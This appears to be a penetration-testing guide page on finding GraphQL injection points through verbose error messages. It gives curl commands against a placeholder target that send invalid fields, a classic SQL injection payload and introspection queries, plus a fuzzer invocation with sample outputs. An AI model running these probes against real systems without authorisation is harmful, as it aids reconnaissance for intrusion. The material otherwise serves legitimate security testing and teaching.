 ```yaml
---
title: Identifying GraphQL Injection Points Effectively
description: Learn to identify GraphQL injection points using error-based feedback
  and malformed query techniques for enhanced security.
keywords:
- GraphQL injection
- error-based feedback
- malformed queries
- schema error
- graphql introspection
- injection points
- invalid field injection
- input validation
- schema leakage
- error handling
---
```


# Identify An Injection Point

## Context

The objective of this technique is to enable you to identify GraphQL injection points by exploiting error-based feedback and malformed query methods. It assumes a working knowledge of GraphQL queries and schemas, general error handling mechanisms in web applications, and a basic understanding of GraphQL injection.

## Theory

### GraphQL Error Feedback as an Enumeration Vector

GraphQL is known for its detailed error messages, which often reveal schema details and input validation logic. By sending malformed queries, you can trigger verbose error responses that expose potential injection points. This forms the core of our approach: by crafting intentionally invalid queries, you can observe error handling behaviors that might reveal schema information.

### Schema Error Reflection and Injection Discovery

Improper error sanitization in GraphQL can allow attackers to infer valid fields and injection vectors. By crafting queries with invalid fields or types, you can bypass superficial input validation. Through iterative mutation of query structures, you can map how error responses relate to backend schema logic, enabling the discovery of potential injection points.

### Detection of Injection Points via Malformed Queries

Injection points are specific locations in queries where attacker-controlled input can alter execution. For this detection method to work, the application must reflect or return descriptive error messages when handling malformed queries. By submitting queries with syntax errors, invalid fields, or reserved introspection keywords, you can identify such points.

## Practice

### Manual Error-Based Injection Point Discovery

1. **Inject a Non-existent Field**
   - Execute the following command to send a query with a non-existent field:
     ```bash
     curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query":"{invalidField}"}'
     ```
   - Observe the error message for schema leakage or field validation details:
     ```
     {"errors":[{"message":"Cannot query field 'invalidField' on type 'Query'."}]}
     ```

2. **Classic SQL Injection Payload**
   - Test for backend injection handling with a classic SQL injection payload:
     ```bash
     curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query":"{user(id: \"1' OR '1'='1\") {name}}"}'
     ```
   - Analyze the error message to assess input parsing and potential vulnerabilities:
     ```
     {"errors":[{"message":"Syntax Error: Unexpected string."}]}
     ```

3. **Attempt Introspection**
   - Attempt to access the schema introspection:
     ```bash
     curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query":"{__schema {types {name}}}"}'
     ```
   - Determine whether introspection is blocked or if error messages provide useful information:
     ```
     {"errors":[{"message":"Introspection is disabled."}]}
     ```

### Automated Malformed Query Fuzzing

1. **Run GraphQL Fuzzer**
   - Use a fuzzer to automate the sending of malformed queries and collect error responses:
     ```bash
     python3 graphql-fuzzer.py --url http://target/graphql --payloads malformed_queries.txt
     ```
   - Review the fuzzer's output for fields that generate verbose or unique error messages:
     ```
     Potential injection point detected at 'user.email' - error: 'Cannot query field...'
     ```

## Tools

- **curl**
- **graphql-fuzzer**